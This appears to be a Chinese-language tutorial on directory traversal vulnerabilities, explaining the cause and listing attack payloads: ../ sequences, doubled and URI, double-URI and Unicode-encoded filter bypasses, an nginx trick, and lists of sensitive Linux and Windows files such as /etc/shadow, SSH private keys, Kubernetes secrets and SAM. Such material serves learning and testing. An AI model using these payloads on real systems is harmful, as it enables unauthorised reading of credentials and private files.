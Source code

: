 # 目录遍历

# 简介

![%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled.png](%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled.png)

---

如上图所示，左侧截图为web常见图片查看接口，在将gift.png修改成../../../etc/passwd后，页面当即展示了linux系统中常见的/etc/passwd文件内容，该文件包含部分敏感信息。

可以猜测，该流程的逻辑为，前端将url中[filename=]后面的文件名传送到后端，后端代码读取某文件夹下对应的文件内容，将内容传送到前端。

因此，非常容易发现，该功能如果存在漏洞，则可被用作：源码文件读取、敏感账号密码文件读取、网站目录结构读取、其他文件读取。

源码文件读取：读取源码文件夹文件，进行代码审计，发现网站后端代码漏洞，进行利用。

敏感账号密码文件读取：读取账号密码配置文件，用作直接登陆该网站或相关网站。

网站目录结构读取：配合其他漏洞（如命令执行），将命令写入文件，再读取文件内容进行执行。

其他文件读取。

---

# 原理

在Windows及linux系统中的文件管理模块中，每个文件夹均存在[.][..]及其他文件。

![%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%201.png](%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%201.png)

![%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%202.png](%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%202.png)

其中，[.]表示当前文件夹目录，[..]表示上一级文件夹目录，我们可以使用以下命令进行实验。

type为windows的查看命令，cat为linux的查看命令。

![%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%203.png](%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%203.png)

![%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%204.png](%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%201c83a0e8d48f41108cfae55172639eab/Untitled%204.png)

由上述两个截图，非常容易发现目录遍历的最根本的成因，即：

在后端代码尝试进行文件内容读取时，信任了前端传入的文件名参数。

而**[..\][../]这两类危险字符在文件名参数处的加入**，导致可以读取上一级（甚至上N级）的文件内容。

---

# 技巧

由上述两个小节，易知关于目录遍历漏洞的攻防重点在于利用或防治[.][/][\]三个危险字符的组合拼接。

防御1：通过正则表达式将[../] 或[..\]replace 成[]（空）

攻击变形1：双写，写两遍../或..\ ，当只用正则进行一次匹配置空后，剩下的左右字符依然可以被拼接成目录穿越字符。

- ....//....//....//....//   ....\\....\\....\\
- ./..././..././..././.../ .\...\.\...\.\...\

攻击变形2：URI编码绕过，通过URI编码绕过后端对于危险字符的检测，而文件名在实际被读取时，会自动进行URI_DECODE操作

- uri_encode("../")→%2e%2e%2f
- uri_encode("..\")→%2e%2e%5c

攻击变形3：双重URI编码绕过，同上，多一层URI编码以逃避后端预先decode检测

decode("%25")→"%"，decode("%252e")→"%2e", decode(%2e)→"."

- double_uri_encode("../")→%252e%252e%252f
- double_uri_encode("..\")→%252e%252e%255c

---

# 绝对路径

上述所有场景均属于读取相对路径的文件，某些语言的API也兼容绝对路径的读取。

- Linux：filename=/etc/passwd
- Windows：filename=C:\boot.ini

相关敏感文件

- linux敏感文件

```python
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

Windows敏感文件

```python
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

- 配合命令执行的日志

```python
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

---

# 其他编码方式及一些小技巧

- UTF-8 unicode encode

    ```python
    . = %c0%2e, %e0%40%ae, %c0%ae
    / = %c0%af, %e0%80%af, %c0%2f
    \ = %c0%5c, %c0%80%5c
    ```

- 16 bits Unicode encoding

    ```python
    . = %u002e
    / = %u2215
    \ = %u2216
    ```

- bypass nginx：http://nginx-server/../../可能会默认返回400
    - 可以使用：http://nginx-server////////../../
- 同级目录绕过：./././././ （参考[原理]处的截图）
- 如果文件名为某些规律的映射文件名，如[filename=b29d-3f28-5cc0- bf4d-3729-9344-3708-10ae]，大概率不存在目录遍历漏洞，但也可以尝试一下。